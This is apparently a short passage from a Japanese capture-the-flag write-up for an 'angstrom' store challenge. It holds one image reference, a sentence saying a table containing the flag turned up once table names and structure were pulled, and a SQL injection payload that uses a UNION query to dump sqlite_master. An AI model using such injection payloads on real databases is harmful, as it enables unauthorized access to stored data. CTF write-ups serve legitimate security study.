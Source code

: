 <img src="./img/angstrom/store3.png">

あとはテーブル名と構成をとるとflagを含んだテーブルがあった。
```
' or 1=1 union select * from (select null) as a join (select name from sqlite_master) as b join (select sql from sqlite_master) as c; -- 
```